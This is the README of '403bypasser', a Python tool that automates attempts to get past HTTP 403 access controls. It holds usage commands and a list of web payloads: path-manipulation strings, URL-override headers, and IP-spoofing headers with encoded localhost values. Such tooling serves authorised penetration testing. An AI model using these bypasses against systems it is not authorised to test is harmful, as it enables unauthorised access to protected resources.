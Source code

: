 [![forthebadge made-with-python](http://ForTheBadge.com/images/badges/made-with-python.svg)](https://www.python.org/)
![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)

# 403bypasser

![Banner](https://github.com/yunemse48/403bypasser/blob/master/img/banner_v2.png?raw=true)

## Türkçe
**403bypasser**, hedef sayfalardaki erişim kontrolü kısıtlamalarını aşmak için kullanılan teknikleri otomatikleştirir. Bu araç geliştirilmeye devam edecektir, katkılara açıktır. 

## English 

**403bypasser** automates the techniques used to circumvent access control restrictions on target pages. **403bypasser** will continue to be improved and it is open to contributions.

## Installation

1. Clone the repository to your machine. `git clone https://github.com/yunemse48/403bypasser.git`
2. Install required modules by running the code `pip install -r requirements.txt`
3. READY!

## Usage

**Arguments:**<br>

| Argument | Description | Examples | Note |
| -------- | ----------- | ------- | ---- |
| -u | single URL to scan | http://example.com or http://example.com/ | All these example usages are interpreted in the same way |
| -U | path to list of URLs | ./urllist.txt, ../../urllist.txt, etc.  | Just provide the path where the file is located :) |
| -d | single directory to scan | admin or /admin or admin/ or /admin/ | All these example usages are interpreted in the same way |
| -D | path to list of directories | ./dirlist.txt, ../../dirlist.txt, etc.  | Just provide the path where the file is located :) |
| -P | Send request via proxy (like burp) | 127.0.0.1:8080  | Provides the ability to send the request to a proxy, such as burp.  |

**Usage 1:** `python3 403bypasser.py -u https://example.com -d /secret`<br>
**Usage 2:** `python3 403bypasser.py -u https://example.com -D dirlist.txt`<br>
**Usage 3:** `python3 403bypasser.py -U urllist.txt -d /secret`<br>
**Usage 4:** `python3 403bypasser.py -U urllist.txt -D dirlist.txt`<br>
**Useage 5 (With proxy):** `python3 403bypasser2.py -u https://exmaple.com -d /secret/ -p 127.0.0.1:8080`

**IMPORTANT NOTE:** All the followings are interpreted the same. Therefore, which pattern you use is just a matter of preference.
- `python3 403bypasser.py -u https://example.com -d secret`<br>
- `python3 403bypasser.py -u https://example.com -d /secret`<br>
- `python3 403bypasser.py -u https://example.com -d /secret/`<br>
- `python3 403bypasser.py -u https://example.com -d secret/`<br>
- `python3 403bypasser.py -u https://example.com/ -d secret`<br>
***ALL THE SAME!***

> Since Python is a cross-platform language, one can run this program on different operating systems. 

## Output

The output of the program is saved (in the current directory) in a file with the name of the domain name given as input.<br>
For example: <br>
`python3 403bypasser.py -u https://example.com -d /secret` is given. Then the output is saved to `example.txt` in the current directory.
***

## Release Notes
**Changes in v2.0**: Considerable changes have been done in this version. The project is completely moved to Python 3 from Bash. New and wide variety of techniques have been added.<br>
<br>
**Changes in v1.1:** It's now possible to pass files (lists) to 403bypasser as input via arguments. Furthermore, two more test cases added: 
poisoning with 1)`X-Original-URL` and 2)`X-Rewrite-URL` headers. 

***

## To-Do List
- [ ] GUI
- [ ] Add Rate-Limit / Threads Option
- [ ] Add an Option for Scan Types (fast, normal, aggressive or only path manipulation / header manipulation)
- [ ] Export cURL Command for Each Request
- [ ] Add Parameters to Save Output According to HTTP Status Codes
- [ ] Add Parameters to Save Output According to Page Size Anomalies

## Which Cases Does This Tool Check?

### 1. Request Method Manipulation
- Convert GET request to POST request

### 2. Path Manipulation
- `/%2e/secret`
- `/secret/`
- `/secret..;/` 
- `/secret/..;/`
- `/secret%20`  
- `/secret%09`
- `/secret%00`
- `/secret.json`
- `/secret.css`
- `/secret.html`
- `/secret?`
- `/secret??`
- `/secret???`
- `/secret?testparam`
- `/secret#`
- `/secret#test`
- `/secret/.`
- `//secret//`
- `/./secret/./`

### 3. Overriding the Target URL via Non-Standard Headers
- `X-Original-URL: /secret`
- `X-Rewrite-URL: /secret`

### 4. Other Headers & Values 
**Headers:** 
- `X-Custom-IP-Authorization`
- `X-Forwarded-For`
- `X-Forward-For`
- `X-Remote-IP`
- `X-Originating-IP`
- `X-Remote-Addr`
- `X-Client-IP`
- `X-Real-IP`

**Values:**
- `localhost`
- `localhost:80`
- `localhost:443`
- `127.0.0.1`
- `127.0.0.1:80`
- `127.0.0.1:443`
- `2130706433`
- `0x7F000001`
- `0177.0000.0000.0001`
- `0`
- `127.1`
- `10.0.0.0`
- `10.0.0.1`
- `172.16.0.0`
- `172.16.0.1`
- `192.168.1.0`
- `192.168.1.1`
